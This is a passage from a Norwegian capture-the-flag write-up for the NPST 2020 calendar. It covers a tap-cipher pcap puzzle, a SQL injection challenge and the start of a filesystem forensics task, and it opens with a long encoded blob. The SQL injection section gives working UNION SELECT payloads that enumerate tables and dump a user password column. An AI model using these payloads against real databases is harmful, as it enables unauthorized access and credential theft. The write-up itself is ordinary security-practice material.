RiZDMyNTc1MTc5MTEwYTRkYmM1MTQ1NjZlYmUyYzQ3ZjczOGQyZGIwYjhhZjQxOGI5Zjg3OWRlY2Y2ZmYwM2Q3ODVkZmQxNWIwZmJiOWJmNDg2ZGI2ZDNhMjgzNjZlODExY2Q1ZTQ5OThkYTE2MmQ4ZTBjOGU0MjcxMjAxODQ1MGNjNDA1YjQ5OTA4OGU4MTdjYTQ5MjVjYjZjNTNhMmMzYTc1NDNmZWVkNGIzMzY0ZDMxN2QzZTc5YmYwMmNlZDk3NmUwYzk3ZWY5ZGQyYzMwN2JmZmZjNzkyNmRjYjY2NGI5NTY0MDIyNTc5ZGQzZjVkYjA1YzM4ZTgxODY3MjRmMTIzMTdmMDIwZTQ1ZTY1ODg4MDAwNjhmZmE0NzkzYmY4ZjUzZTA3N2QwZTQ1YzE0NDk4YzY0ZDJjMmNiOWZmMWJmNWIwMTg3MTNlYzNiY2RkYzAwMGFkMDBiZThmYzgwZDE1YzMwOTA1OTNlYzYzNmZlZDZiZjVlNjY3OGUwMWE4MTQ5ODJjOWJjMjY0ODc0NDYwMDFhNTgxODJkMDdjMTViNDY1OWY4Y2ZjMjZiNTIwMjUyODE0M2JiOGQzMDJhYzM3ZWM2N2U4NjdiZmM5NmViMDAyYmNjMmM2NTg4NjM0OTZiY2UwZDcwNjdhOTVmMDdkZWMzNjQ4OGQ1ZDg2YTY1MDI2YjgyY2I4ODA3ZjIyOTgwNjg3NjY2YmNkY2I1N2YyODczMTUxOGI4YWY0MTg4NDI2NTNmZGQ1NDRjYWJiZDg3YThjNjc4ZGMwODFmZWVjMGFjOTNiYTg3NDc5NTAxZWM5ZGI1YWQ4ZGExNjJkY2U3YmRjMDQ1NTZmN2E4ODRjOGFkNmI4ZDQ2MWMyMDIyNjFhN2ZjOGFjOTY4ZjU4MjI3ZTQ5NGE0ZDRiMzM2NDczODg0NjBlZDUyMTBhZGNmN2RhNTI4ZDU2YjI2NzA3N2IyYjgwN2RhN2YyZDE0Yzc3ODNmZjdiZjU3OWRkM2U5Y2RjZWIxMjU1ZjM5YTQ3MTA0YmRlZDU1MjlmYjk4OTA5ZThjMDg0YjgxZTViNzY5MGM0MDEwODE1MGU0NWMyZTc0NzI5YmZkNDFjZWJlOWI4Zjg0MjU1NWVlMDhlZGY5ZTJkNjFjZjhjMjNjOTEyZjk2ZTAzOWMzNTkzZWM2NjM5NjllZTgwNTYyNzI4MmU4ZDBjZTdkNTQyMzFkMjQwZTM2NTMyNzBkNjc0N2ZiZTBmMjMwNGU2NTRmYzI2YmI0ZjJlMjJjMGQzNzllYzYyZDU5NzM4NTU2NzVhNWZlMTM1M2RkZjk5NTM5NjgwODMxMWY1OGYzYmQ3MDY3YTg5NzFlMzc2NjE1ZDBlMjZiNjU0ZjFjY2Q1Mzk0YmMwM2JkNWM0NDBlZjVjZjJjMWM1YmExNGQxYzg1MThiOGFkZjFhMzUxM2IzNDU5MzdhOTNkNzFhNzc1NWNmNzg2MDQ4NTQ2ZWUxMjE0NzFlNjI2YzhiMzc1YTdjZGFkOGRhNDFhYjU1YmM5ZDZjZmQwYWZjNTFhYjkxNTQ3MTBjYjBmY2Q2YTIzM2YzNjlhM2I3YTdkOWQxNGI4NzRhNGQ0YmUyYTk1NDg3ZTUyNzA1OWEwNmRhYThmYjU2OWI5Nzk5MDc1MmI3NWMxZDJlYjQ5MGI4NGU1Yjc4Yzk3YmY1NzgzNmFmNTdjODNkZjk4Y2ViMGE0YWFkMDk1MmU4ZjBlZjg5NWU5MTQ2MjVlMjk3Zjk4Y2YzYzkwZDdmMDgxNTBjNTJhMTUwN2M0NDBlZDcyOTliZmFhNTlmNWUyZDE5MjBkZjQyZmI2YjdjMzZmMDBlZDcxYzdmOTUwMTljMzU5NmRlYjM1ODg2ZWUxMjUxZWVlODBhYmNlMTQzNjVhZmYxNDE2NjA5MjkwNjUyMTgxMjUxYTY4MGY1ODJlNjU0ZjI0MjlkNGRjYTIzM2ZkYTIyMmMxYTg3MzM2NTNjYTAxYjYzM2IxZmVmOGJkZjJjM2ZkYWJhYzExNGM2M2JkNzFmZTZlNTc0N2I3NWMwNGI3NzY2MmFjOWRkM2RjN2IwMjkzZGM5YTAyMGQ4NDFlNjQwNGE4YTYzYjc2YjQ4NTFhMDNhM2QxNjg5MTQ2MGY5MTEzYjZhN2U0NWM0Njg5ODZmYzQ3ZWIwNzE0Y2UyM2JlMGZhZGJiNDkxMjk3Y2RhYjA0YjQ1YjJkZmI2YjEwZmJiYzkyYjgzZWM2ZWFkZWNhMDZlODI5ODliNzczNzQ4MzEwYTQ4OTdmYmVmMDc0YTk4Zjk2YzllNDA5MjliOTA4ODdmZThjNDI2YTJhNDI3YjBhMmM2ZWRlOTExZDE3YzViOWJmZGYwMDgyMTg5N2FlZDBmMjdlM2UxZmVlOGY5ZGM4MDJkNmU3YWI2YmU3ODk5YmU2YTI0MmZiYTViMDZjOGU4MDQxODFjNzJkZjBhMjU5MWY4MzQzMjAyMmQwZTQ3YzA2NTIzOGE5MjgzOGRlZTgzYWI3ZTYwOGJjOThhN2QyYzBlMmMyNjllNDE5YjdjZmEwYzU2NWYwNzY1OTNlODYwYmRmNGRhZmVjNGQ0MjJjNGE5MDNiMWQ4N2VkYjg1ZTYxMzY2N2FlM2UyZTkwNzBiMTZkM2MxODkzY2ZjMmNiMTg0MTc0YTAyNmY1Njc2NmZhZjg0OWE0YzgyNDhjYzNiM2QzYjhhMzQzNjJmODk5OWIyNWM2MmRmYzcwNjY3OWFjZTMxN2IwN2ExNTM5M2EwYTBjZmViZjdjN2ZkNzY0OWM1YzhkYjU2NTM2MGRlZWU5ZmM2YjY0MDY5OGJiOGVhNzM1YjA5ODhiMzVjZmNiOWIxNzAyODEwNjgwNTEzZmU2YzdkNDk1M2RkMzE0MjIyZTA2YTkzZTBhZWQ4OGQyYjlkNDk5ZWRkOWQ0NzA3OGU5YjE4NmMzOGFjMGRiYzAzYTY4NTdmNWM0NWRiNjc3NjMwYWFmYzMxYTI0ZGQ1ZThlNTdlZTI0NGU1Njk4OGQyZTlhY2E2NGRhNjE0ODYwNGJhY2QwMTQ2ZWM0OTM5MTM1OWFhMDY1YWI3ZjQ1NDJkM2QwMjM3ZWYzZDJlZGQ1ZTJlYTdiYmY0YmIzN2NiMGY4YTc1ODM2YTI2ZmZjZmJkNGVhYjBiY2E5MDE2ZDY2NWM1ODc1MDIxYzVlMjQ1NDM2MmI4ODgxNzg5ZDA3OTkwZGI5NGM1MmI3YTAwNzA4NTcyYTk5ODdhZjgzMjUzYmM2Y2M5NTg3MjZjMzdlZDY1MzY4ZGRjMzBkZTU4OGVmOTQ4Zjc2ZGU5MGIwMDk5Y2QxZWFlZWM4YTBjNWZkYzg2YTc3ZjRjOWZhNjUwMjUzNWQyZDQ0NjU5NDNjZGQyMGY3ZDExMjQyZjk5ODFlZTc1YTJhMjI3ZGIxNmMwNDdjYWI5MDE3N2UwYmJkODdkZDQ1ZTU2ZWJjZjY0NzQ1ZjExMDViYmZlNjBlZWMyMjM5NGI2Yjc3ODQ5YjI2MGU4N2E4ZjgzMTAzMTg4NGM4NDU2YzNkMjI4NzEzZTk2YzFiYjhjODgwM2IxMjI2Nzc0Zjc5MjkxMGNmZTlmYjEyYzhhZDBjNWI4NWFkY2Y3Y2VkMjY0NWY2YzliYzJmMjYyODhkN2RjMDQ5YmY3YjkxNzEwZmVmYjk3MDJlMDliZTdkYTU5NmM4Y2NhNDcxMDcyNWZiZWMxMjdlODY2MWZiNmRkNTA0NjBmZTgxMDhmYjFiOTAyMDhmMTg2MzFlODM4NGJjZjI3ZDc3YmU5Yjg5ZmMwODI2M2Y4MmNiYjIwOTI0NTU4ZWIxMDJjMzlkMDlhOGY4NzFkMWFjYjVhMmM0Y2Y4NzFmODUxMDgyZThkZTA2MWM3YjQwYzY3ODlmMWZmZWQ0ZDI5Yjg2NjRlNTllYWQwYzlhNWFhNzk0YjY2ZjcwYzlhMGNkYjljNjJkNDMwYmE2ODk2MTZiOGRlMWEwMDI1NzVlZThjYmJmM2NlMmE1OTdlYmNhYjhmNzkzYTExOTdlYjE3NDhlNmI2NTY1OThiYWRmMzMyOGQ0MzJiMDA3ZDE0MjJkNzg4MWM3MzZiY2YwMjg3YThkMTBmY2IzYWYwMjliMTdkM2E5M2QzY2VkOGE0MWRkZWQ1NjVlOTgwODViNjc2NTBkYzI2OWQyODcxODZjOGFkNWI5MDc5Y2ExODZlOWIwNWNhZmM1YzcyNGRiZTI0NDI1NTNjMmVjMWNjOTM5M2Q5NDY3YWU1ZWM5YWNhN2RhNTQ4Zjg4ZTdiMmNhMmU5OGM3YTA2YzY5ZmY0ODM3ZWU3ZDVjNjYyNjI3N2ZjZmM0ZjZiOGEzYzI3ZWE3Yjg0YmQ3ZDBkZDM4OWU3YjYyZWQ2OGIwYTZhZTAxN2M1MDIzODU0NmJiN2I3OTAwNzA2ZjEyOGRiNDY3ODJiODhjZjg1MDU5NDVjZGUzODkzNjI1MmQ5OWJhYTMwMzA2ZDg3NGNkNmE4OTA5MGY4MDk4YTFiZWQ0OTZiOGM2OGRkNzBjZDhjZjZjNzQzNGRmZDM3ZGU0ZWU4YWI1ODU4YTRjOTc3NTJhZGY5ZjkwYzFlZGIyODI1N2YyOGQ2YWQ0NTE5NzRkNzEyNjk2NTc0MDVkMDQzZjIyZGE5NGNjZGJmN2YxMTVlYTQwZTBmOTYyMjQ5ZWM3ZDAxZWQ1MmE1NmRhZjE3NTFiZmFmM2QxNjBjNThlNDFmNjRhZjc3NzQ4MTAxYmI0MmJlMTMxMGYzNzdmZTI2ODU4MjI1NWViZDI0YTFiMTVhODBhMWM1YjMxNmNkM2UyMTNmYTExMTE3YzM4Mjg5NjY4MzNkYjkxZDEwMDM3YWNjYzc3ZDQyODVmZmIyOWI0YWMxYjI2YzlkYjI3NWMzNzNjMGIzYmJiMDY0YzZkZjNhYzVjNDhmYTViODA1MGE3NzY5MDU2NmNjMDA5ZWU5N2E2MjlmYTdlNDlmOTQ2NTFjNjE5Yzg4OThiZjZhNDFjYTZjNmZkMGJjOGMwZDliOTEyZjhkM2E3NjAxZTIyZjBiYjZlMGI4M2ZlMGY2YmRhNmIyZTdkZGVkODEyYmUyN2JhNmEwNTk4N2Q2MTRlOGZiZTBkNWNiOTMwMjM3NjE5ODkyMzE4YzQwMzExMjg0YmE5ZTM4NDQyNGMzZTgzNzg4YmFiMGNlYzg1MzM3MmQwODMxNTQ3OGZkODc1MTMyZWRmZjVhZDZlMDViYmVjZjhhZTM0Y2VlNzc2NDJjNTBkZDhhOTk3MjdjZGRkMWU1OWM1YjU2OGQwNGM5NWJkZTI0MDE0YTUyMzBjODgyNzBkYTM1NzcyMzkxM2U2NmQ5NDRkYWVmMWY4NzQ0NWEzY2U2Yzk1MmQ1OGY3ZjQ4NDM3ZTAzN2JkZjU5N2RjNzk5NGI1NTExZjRmYmMzYmE0ZjZmNGEyMWEwYzk2ZWNiNDczYTdmNWU1NGQxMDE3Y2U1MDMwNTA4NDE0ZjA0NjhlZjc5NTViYTE3MDg2NDhiZjEyMTdiNzJiMTdmMjI3OTY5Y2I4MTQzZDc1YjgzMDczZDg1OGQ5Y2UzNzE4ZWFkMjEwZjU0OGIzMTljYmZkODFiZjMwOTFlOWIwMWY3OGYyZTc4YzM2NDUxNDhjNTg5YzRjY2Q0ZTczNTFhZDJhNWYzOTE1N2Q5ZGFlNzgwNGMyODFkOWZhMmU5ODIxMGQxZTM4ZDY1M2VkYjdkNmNkZTZmNzc1NzM5ZDVhYTVlYmMxY2ZiNTA0ZTRhMzBjMGY2NmMyNGUwYjYyZWM3Mzk1YTM0ZDUzZGMyNDkwNTI3NDNhMTExNTFjZTU0YWJjMjg2MjcwOTU4ZjNmYjU5NjExM2E2N2YzMTkzNjI2OWNmNGI1NzU1YzQ2N2ZmOGRmOTY0YjNiYjVhNzNkN2E4NjZjYjc5OWY0ZDFjMDk0ZjMzYmNiYjgxZGFmZDM3YWU3MTc5NTE1NDZlYjgwMGQ0MGYzZjljODk0YjljNTBhY2JhNzkwZWUxNzVhNjFmNzFkYzg3ODhjMjRhMDVkMGEzOWIwZjViNTZhMjhjMDE1NjExYzBlN2RmNzhlNmQ5YTc4YjhmOTIzMzE0YmIyMTFhNDdjOGRkNjdmYjBjNTliNGU5OTE0OTUyYjZkNjAzNTMzYTYxMzg0MTBkM2E0ZWI4ZDhkMGZmNWRiNzg5ZjNhYmU4N2Q0NTM4MDk5NmNlOTcyZWZiN2Y1ZTkyNTMwNTVkY2JiM2NjZTM5NWNiZjI4ZDRkNTkwMTQ0OTBkZTFjYTgyYzg1NmRjYzFlZjI3MmYxZTIwOTAxNDJmZmRkOGQ0NDc4OWM3NzM0ZjQ3ODFlZDU3NTRmODM2ZmY5NDMyN2FjNjdjZDI0NzYyMjFmOWUxYTM3MWY4MzY2MDA0NGQ1NmU4ZGU2OTFkNzE2OGMyMjU1MTU3MGM1MjAwZjY1ZjhhNmI4NzVmZTkzNzcyMGUzMmI1MWEwYzUzYjAwZWY1NTIyZDQzYWZhNTFiMmQ2NzdkNWI1MTk2ZGYwMTEzYzBkYjI4Yzk0MDJmZDExZjEzNWU5NWFiMTZkYzk4MTIxNTVmNjU2NGEwYmRhOWU1MzkwNTQ5NWFmMjQxODNiYzYxNDllZDdmNjA2MDViYTFiZDQyZjRhOWIyNDdlYzNmMzU0MTNkM2ZiMTg0YWUzZGNmOGQ3ZjRhMWZlMmM0ODZiMzdlMjUwMTMwYjBjOGIyODU2NjE3YWU5ZmU4MjY0MWQ1NjNjNWMwOWFjZmEzNDQ3MGQ1MDE3YjIwMzY2ZmNhOWQwM2ZkODNkOTk5N2Q5ZWNkM2IzMGEyZTAyYzdiZTI1NTM0NmM2MWVhNzBiNTZlOTk1NTgzMDlmMDUzYTA3YWU1ODQwNGM0NGVlZjA0ZTI3NWM5ZDliNjMwNjY4ODM3ZDVkNmE2YjIyYjk5OTUyMmVmNTRjNTllMThkY2IwOGEzY2NlMGY2ZWYyMjE4ZjM3OTQ3ZTRlOTM1OGJhZGM1MDU0NTJiYTlmNjhlZWY1ZjYyMTU3NmNlMzJkNDc5OWRiNDc3MzkxMjIxZjcyZDFkMGY2ODNmMmZkNGQ4YTQ2ZDhkNmRlOGFlMTJkMjIxNDEzNzM1MTI3MzVlNTY4ZWU0OTY5MWNmYmY3MjExZTVhNTkxMmM0MWUwNTc0ZGJlYTRkNTI0MmRhMzNlNWY3MzYzZDFkNWJmOWQ0M2QyZDIzZmYyZmE3MDgxMWYzYTNjYmNmYmU2ZTIzMGQxNzQ4MmJmNTVmZTY0YjVjM2MxMWQzNDVhNTQ4MGU1NjQ1ZTVmNDAxZTBiOTljM2ExY2I0Nzg3MDgzYTM3NTk1YjE3YzY4MTU0MDNiZjk0NjQ2M2E1ZDZjYmQ3YzEzZDNlYzNjMTYwMjMxOGVlNjRiMjc5NjhjOTljNGI1MTRmNDliMDZhYzM1NjA0ODBmNmJlYjRiYzUyNzg1MDYzYzVjMjY0NjMzMDc1YWQyM2JmOWY4ZjJkN2VlNmY5NWI3MTdlOThhYTY1NTMwZmMxMTI4Mjk3ODZkZjhjZDhiNDZjNjdiZWI1ZDg5NGE1ZmM4MGUwZDFlNTAyM2EwZjQ5MWIwMmVkYWJiZDVkOTA2M2JlYzZmMGNhNDBkNzRkOTZhNmI4ODI5NDRkZjdiYzA3YzEzMTVhM2Q4NzRiMTE3ZmE5ODYyNGE4ODU0NGY4YjQ4MjZhMTk3YmUxNTE3NGYyYmE4ZGM2ZjZmNDEwODYwODYzZGI0YjQ0Yzk3OWJiMDBhZWNiN2ZhZGNkNmYwZDk3YzdhYjJmMDgzMzViMTcxZThhZDQ2YTEyMTYzOWNiMWNiNDQ5Nzk2ZjdmMGU4OTgxYTI3OTAwYTQ3NTIxOTRmMDY4YTllMTljNWQ0OWIxYTJkYTU2YWIzZjMzNGU3OWE3OTZmZjBmMjEwMTkyZGVjMmI3OGY4MWJlOTVmMmY3MThhZGFlMzJlNmM1N2U5YWI2NGJkMmE5YzFkZDczOGViMGYyMDE5MWYzODJmZTQyNjY5MGQwYzI4MmY0MWUxMWFkYTRhMzVlM2E2ZDAyZWE5M2Y4NWVhZTYyNDUxY2QyOTkxZjAyZmExY2M2MDNlN2JhZjk1OTY2YzYxNjIzM2FhNGJmYjU0MzRiYTU4NjJhZmMwY2MyYTNiN2VkYTc1ZWVmYTE4NjBiMjc2YjA0Mzg4YTBmNGYzYTZiMzM3NWNhYmY4MDk1NjU3OGJjY2I2YTA2MTc2NmI0OTAyNGI5NDIyMGIyY2IxOWY5Mjk4ZTRkZGIxMTcxY2JhOWRkMTQ3YTgwYzFmNTNkMGQ4Nzc5MmIwYjMxM2E5N2Y4N2Y4ZjY3Nzk5ZTc5YWUwZmVlZDNmNDQ5YmIxYTc4YWU0NWI2OGFjMTYyMTVjNTk0YzkwZmU5OTlkYmNhZjAwYzgwZDEzOTBlZTM4ZWEzMTAyMjVjMTZmZTg5YWI4ZGEzZWM5MmRhNjMzNzM0NmNmNzdmOTAyZWVlNDg3YTE4MTdjMTViY2Y5MjM0ZDJiNWI4NzdjNjMyMDJkZWE4ZDRiNDI3ZmU0YmI1ZDFkNmE3MTEwMGY4NjIyM2ZjOGIyYzMwNjM0ODcwZmY1NzVlOTQ4YzkwNmI1ZjA2NDJhZDU3OTY3ODAzZjg5NDVhNTJiOWJiODEwY2I3NzQwN2Q5ZTY1OGI1N2M5OTAxNTE0MmY3ZDdmOGE5NDE4YmU2YTU1MGYzOGMwNDBkZjZjYmRlOGU4OGMzOTc5MTE2MDg0ZTNiY2Q5NTA3ZWY4MzViNjYxMDUwMGRhZjYyZDgzYWJkNTkxY2Q2MGUxNDEyNzg0MmQyZGQ2NGYwZmJiMzFjZjM0ODc0ZjU4ODIwYzU0OTNiMzhkODE0YTEzNjRjNGE4NTRmYTc1MzEzMzYzZjhjZTY1ZTQ1M2YxOTA4OWRhNzFkN2M5NzE0ZGM3MTZkN2ZjOWNkNGMzN2IzZDNmNmZhY2Q3MGI5NWRiZGQzNDBkNzNiYzNlZGMxYWY5ZGU0YjlhNTA3ZjFiNzQ2OWIyNTAwN2U3NTc2NTA5YzVjMTIwYTc1MTk4ZjQ0ODQ1ZDYxNTFjODY0MjQ2MmEwZTQzZjhlYmQ4ODFhOTE2YWU5ZjU4MDgzOTUxM2Q5ZTZjNjNmMWI5NWFlZDE2ZmNlYzUzMzVhN2NiZTdlYjZiMTNlNDBkMjg0ZGMyYWZiMmEyZTE0YzFjNGY1YmM0ZTNhNmI0MWE4ZjRhMjViMjA3MjZkZGQ0Yjg3ODM4MjkyOWJjM2UxNWVjZjQ2NmEwOWViNjMzNzYyNmYxNDg2ZjM0YmE5NjJhZDE3YjdjOWYwOWZhNDQ1NzhjOGM0YzZmZWU4NjQzMzQyNzE2YmFiMWUyOTM1ZDEzN2ExYjdjYTFkNzhhZjM2YTViMDkwN2UxOWUwYmVlZDBkN2Q2ZjZhMDIyY2JlNWQ2NzliMjhhOWEzNmZkNDViZDBiMjkwN2IyNTBkYTFkMmJjOTlmODgzMmUzMTgyMjU5NTA1MjEyYjA3Njc4M2M1MzhlOWVkYWViNTIwNTZjODU5OWVmODg5ZmQ5NGIyNWU4N2VlMGRjNWUzNWFjNzdjZjU4ZGYzZTk4OTM4YzQ2ZGNkMmUyNGEyOTVmMGQyN2NjZWUyMGRkZTA0Zjc5ZmMyYzgyMzE0NmMzNTRhNjkwNzE0ZDQxYzJlZGZjZDZlYTQ3NWUzN2ZiNmY0MTk1Zjg3NzIzNzE0NDMwZjEwZTA2NjdjNzViNmE2NTU3YmFmODliNzU2MjY2MjQwNzUyMmJlOTQzNTAwOTIxNjJmNDBjOTFmNTFiNmU1OTFiOTMwYmI4Njk0OTJiYmQ1MDhhMGRlOTE1MzdiYjdlMDk1ZjY4MmY2NTU4MWZmMzM2MTYxN2ZhMTVhOTIzY2ZhOGZkOTg4Y2FmN2ZlODg1NTlkYjE0MmZiNWQwODkwMzFmNDEyYzYxM2Q0YzIwMWRkMzMzMzAwYjM0YWZmNDcwYWQwNGVkZDdhMTAwMmRjZDRlNDliNjYwOTQ1OWRmODVhMTYzZTZiM2M1NzY3MDI0NWRkZGQ4MTlkN2EwMTY5OWE1OGYyNDUwYjM4MDY0NzU3M2ZlOTNiMWY2Y2U0MGNjYjMzNDNhOWM2ZDEzOTg3ZWM0NDQ0YzJlNTBiMDMyZWViY2QxZmVkOTljYzBiZTk1MWMwMmZjOWExMjczZTE3NzlkZDY0YWU2YTViY2VjODI2ZWVlZjY2M2Q5OTg1ZTIyODc1YTAyNGVlNzYxODJmNWE2MDYwN2ViM2Y5YzMzMTBlNDUzZmEzYWJjODcyN2M3YTIyMjEzMzQ0ZWVjYzM3NmM5NGIwN2YyMzkzMmM2MTRiYjBiMDgyOWMwZTY1ZGI5M2VkYzBiNGE4N2M5Zjg2OGI3NzczZGQ2ZjIyNzY1MTI3Zjc5ODgxZjRmZGU2YjM3ODk5OTljNmU2MTNiYzQ4ZmMyNDYxOTdhYzg3ZTBjYWQ5MTExYzQ1MjFmNzkzZGJmODEwZWRjMjE3MDQzYTlkMGRlZWVlNmEzYjNjODZmZDA2N2ViMmYwYTdjODMxN2E0ZmJiYTZlZGYyMTBmYzQ4MGMzOTI0NjczMThlNGFlNTk0MjIyM2FiNDljN2NhMDU4YjgyOWUxOWI4N2M1YjBiZjA4OGJhMjQxZjM5MDZmYzE2NGZmZWI5ZGFkM2ZhM2NmNjc3NzRhOTdlNjg3YjBjZDhjNmUzMmU4Yzg2Yzk5ODE5ZGQ4Yjc2MjFjZjhhMDYzM2YwMDI4ZTRhNWMwYjQ3MTM5MTE3YWYwM2FjODk5NzRkNmEzNWUyZDdjYTdlZWMyZTQ0ZDkxMzcyNzBkYjBiNWMxODA2ZDNmYmM2MTk2OWJjZmJiMGExODRhN2RlZjE3NTJiNTQzNjUwN2I4MjI2NjNlZjRmYmQxZjk5NDk5OTQ2MmMwYTVjMDg2YjJmMmU4NzA4OTliMmNmYjg0MjFiMTVlOTU2NTNkODg4Yzc3YmI0MjE3MDg1YTBlZjdlZWY2YjY2MWJjNjFjYTllMWUyYzk5ZGVlOWU3MDhjZTcyOWI0MmY1M2RjNGRkZDY5MDg5NjczMTljY2IxMjEwMjIxMjkzYjI4NmIyN2FlMzIzNjdlZTQyMmUzOTlkNzM5ZWU5NjYxNWM0NmY0NDUyZjlkZjM5ZGFlNzc5YmYzODc3M2VmYzllY2E5ZjhhMzVmNTM4MjNlNzYzNGVlNTFjZTIyZjNiMzQ2ZWExNmVkZTBlNDFjZTRhMzkwZTgxY2M5MWMyMDdlMjdhZTBkYjU0MTVjYzc0MzkzNTcyM2RhNzM3NjFjOWQ2YTJiMzIyNDMxM2UyNzNmYjRmOTJjMjc3ZmE2NzA4Mzc4YTMxNDk1NjM0NzY5NjRmZDUxZjQ0YjlkMTMyN2U1MmI2OWRmN2U1YmMzNzljMDk3MGZlNjc5MDBiYjk5YzUwZGI1YjdmNTM1NjkyZjNmMDU1YTE2ZjhlNWJkZjgzZGU5MmU0MTAzYzg2NTBlNjFmMTkwM2I4ZjgxODhlZTZkOTQ5NDkwMTVkNTJmZTFjMThkNGIzMjBkM2M4NDBjNDQyZmUzZTM4NDdjYmQ5M2IyMWFmODQ4ZDBjMmRkMjNhNGY3ZjdmODM0NTVlMDMyNjJkNTc5ZGYxNWM3Y2UxNmVlNjAzNDM0Y2U4Nzg0ZmM5ZjJhMGNmZDU5NjY0NWY0YmYxMDEwMGM1NmQ0MzA1ZmI2NTUwZTQxYjQ2ODczMzIyM2IwNTY1NzcyYzhjZjA3ZTFlYjE3MDU0ZjNiZWMxNzgxYjgzODE2ZDI1NjU4YzA5M2Q1OTNlMjk2YWM5ZGRmNzQ5OGQzZDExZTdkNzE4ODMyMjliMThkNzFjODI2MzBjMjhjNGMzMjVmZDNjZDYxZmM1NGZjMzZmMmE3ZTQ0MTE3ZWQ1YzViYTM4NTFhZGM1ZjZlOWFkNTFhN2M3YjU5NjZkNmY2NWZjMDVjNzUzMjA2ZDcwNjUyMWViODNlZTNiMDI1NDZjOGI0Y2RhYTQ2YzEyMmVhNTVhYjg2ODk0ZjNhNTIxM2MwNjBjNjk1ZGYwYTUxOGJkZjIyOGM0MjM0OTg3ZDZhN2Q5Nzc0YWJlYTYzZjYyYmQ0YThjYWRmNzFjYmRmM2M2MGIxNmFmNDQxOWJkYWQ4NDFmNmQ2ZTc1N2VjODUyYjg0ZjExN2E4MmJiNDEzNg)
ga følgende QR-kode:


Alternativ løsning for å få output fra Slede8 som jeg så flere benyttet seg av. Fra https://github.com/myrdyr/ctf-writeups/blob/master/npst20/runner.py:

```bash
python3 runner.py frimerke.s8 4672696d65726b65000000000000000000000000000000000000000000000000
```

**Løsning: PST{R3m3mb3r_m3?_W3_h4d_SO_MUCH_FUN_t0g3th3r!_:D}**

# 9 Nettverkstrafikk
> Fikk tilsendt denne filen fra IT-avdelingen i går, de har TAPpet filen ut av nettverket. Har du mulighet til å se på den? Mulig den gir oss litt mer informasjon angående lekkasjen vi hadde ut til SPST. Husk, dette forblir mellom oss, i tilfelle det viser seg å være en av våre egne.

Vedlagt var filen `npst_02_12_21_18_00.pcap`. Teksten hintet også til [Tap Cipher](https://www.dcode.fr/tap-cipher)



Kikket man på den vedlagte fila i en hex-editor, kom følgende fram. Tydeligvis en rekke av tall etterhvert: `23 11 42 14 45 51...`

```sh
$ xxd npst_02_12_21_18_00.pcap 
00000000: d4c3 b2a1 0200 0400 0000 0000 0000 0000  ................
00000010: ffff 0000 e400 0000 4cc8 c75f 5701 0000  ........L.._W...
00000020: 9000 0000 9000 0000 4500 0090 0001 0000  ........E.......
00000030: 4006 0ef9 160b 2116 1f22 152c 2b41 01bb  @.....!..".,+A..
00000040: 0000 0003 0000 0003 5010 2000 0709 0000  ........P. .....
00000050: 3233 2031 3120 3432 2020 3134 2034 3520  23 11 42  14 45
00000060: 2035 3120 3131 2031 3520 3432 2034 3420   51 11 15 42 44
```
Da gjaldt det å trekke ut de talla og oversette til bokstaver. 

```kotlin
fun main() {
    val tapGrid = mapOf(
        0 to ' ',
        11 to 'a', 12 to 'b', 13 to 'k', 14 to 'd', 15 to 'e',
        21 to 'f', 22 to 'g', 23 to 'h', 24 to 'i', 25 to 'j',
        31 to 'l', 32 to 'm', 33 to 'n', 34 to 'o', 35 to 'p',
        41 to 'q', 42 to 'r', 43 to 's', 44 to 't', 45 to 'u',
        51 to 'v', 52 to 'w', 53 to 'x', 54 to 'y', 55 to 'z'
    )
    var ciphertext = ""
    File("npst_02_12_21_18_00.pcap").readBytes().forEach {
        val i = it.toUByte().toInt()
        if ((i in (48..57) && ciphertext.substringAfterLast(" ").length != 2) || i == 32) 
            ciphertext += i.toChar()
    }
    var plaintext = ""
    ciphertext.split(" ").forEach {
        plaintext += tapGrid[if (it.isEmpty()) 0 else it.toInt()]
    }
    println(plaintext)
}
```

Det ble en lang tekst
```
HAR DU VAERT SNILL I AAR SPORSMAALSTEGNVELDIG SNILL KOMMA
...
PST KROLLPARANTES F APOSTROF JEG SNAKKER MED DEG FRA KROLLPARANTES SOURKEIP KROLLPARANTES SLUTT APOSTROF KROLLPARANTES SLUTT
... 
```
Med litt godvilje, kunne man få dette til følgende: 

PST{f'jeg snakker med deg fra {sourceip}'}

I frame 981 fant man sourceip: `43 44 45 15 = s t u e`

**Løsning: PST{jegsnakkermeddegfrastue}**

# 10 Varelager versjon 2
> Alvebetjent Eline har oppgradert varelageret til v2 etter at det ble oppdaget litt muffins i versjon 1. Som en del av videreutviklingen har hun slått sammen v2 med resten av bruker-systemene til NPST, slik at det ikke trengs mange ulike databaser oppe i skyene.
> Har du mulighet til å sjekke at alt funker som det skal etter Elines oppgradering?
> Varelageret finner du som vanlig [her](http://varelager.p26e.dev/), og bruk programmeringsgrensesnittnøkkel v2_vr7n0p1tf7.

Mye av det samme som varelager versjon 1 fra luke 5. Bare å dra i gang med ca. samme SQL-injections:

```
viser at man kan få ouput:
Appelsin' UNION (SELECT null,null,null,null,null,null FROM v1.ting);-- 

viser en mengde Postgres-tabeller, finner brukere:
Appelsin' UNION (SELECT null,table_name,null,null,null,null FROM information_schema.tables);-- 

viser at det finnes kolonner som heter id,passord,navn:
Appelsin' UNION (SELECT null,column_name,null,null,null,null FROM information_schema.columns where table_name='brukere');--   

gir flagget for bruker Eline:
Appelsin' UNION (SELECT null,null,null,passord,navn,null FROM v2.brukere);--  
```
**Løsning: PST{c3ce11494e56a8897b6f80d1ca3dbe}**

## Egg
På https://varelager.p26e.dev/Logo_egg.jpg kunne man også finne et egg


**Løsning: PST{EGG_StRpiITbqyEsBJM}**

# 11 Muffens i filsystemet
> Beklager for å forstyrre deg på en lørdag waperon, men det haster.
> En av terminalene på julenissens kontor har utvist rar oppførsel de siste dagene. AlveCERT har sikret data fra hjemmeområdet, finner du noe muffens?

Vedlagt fil: `sikring.tar.gz`

Trengte to verktøy for å løse den på OSX

- https://github.com/sviehb/jefferson for å håndtere [jffs2](https://en.wikipedia.org/wiki/JFFS2), med en bugfix https://github.com/sviehb/jefferson/issues/9   
- https://github.com/npitre/cramfs-tools for å håndtere [cramfs](https://en.wikipedia.org/wiki/Cramfs)

```sh
$ tar xvf sikring.tar.gz
x sikring_alveCERT
$ file sikring_alveCERT
sikring_alveCERT: Linux jffs2 filesystem data big endian
$ jefferson sikring_alveCERT -d foo
$ ls -a foo
.sys     1.jpg    2.jpg    3.jpg    4.jpg    5.jpg    flag.txt
$ cat flag.txt
this is not it
